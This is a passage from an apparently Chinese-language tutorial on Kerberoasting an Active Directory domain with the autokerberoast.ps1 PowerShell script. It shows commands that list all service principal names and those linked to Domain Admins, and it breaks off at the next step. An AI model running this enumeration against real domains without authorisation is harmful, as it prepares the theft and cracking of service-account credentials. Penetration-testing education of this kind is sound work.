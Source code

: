 #### Powershell-2

使用autokerberoast.ps1([https://github.com/xan7r/kerberoast](https://github.com/xan7r/kerberoast) )来实施攻击：

a、查看所有的SPN信息

```plain
List-UserSPNs
```

[![](assets/1699492330-4be13952c70202156abc7cfd59734464.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163118-3048d6ae-7e11-1.png)  
b、查看与域管理员关联的SPN信息

```plain
List-UserSPNs -GroupName "Domain Admins"
```

[![](assets/1699492330-19dc07c6b2bc0ba13e605d6fdcd78038.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163139-3caf42fc-7e11-1.png)  
c、查看指定域名的SPN信息
